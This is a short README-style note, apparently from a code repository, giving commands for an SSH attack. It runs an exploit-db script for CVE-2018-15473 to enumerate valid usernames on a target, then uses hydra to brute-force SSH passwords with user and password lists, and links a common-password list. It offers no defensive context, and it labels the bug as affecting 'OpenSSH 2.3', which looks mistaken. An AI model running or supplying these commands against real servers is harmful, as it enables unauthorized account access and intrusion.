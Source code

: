 # Brute Force
Enumeration CVE 2018-15473
Bug OpenSSH 2.3
https://www.exploit-db.com/exploits/45233

Setup :
---
```
python 45233.py --userList user.txt [ip target] --outputFile hasil.txt
hydra -l [username] -p password.txt [ip target] ssh
hydra -L user.txt -P password.txt [ip target] ssh

https://nordpass.com/most-common-password-list/
```
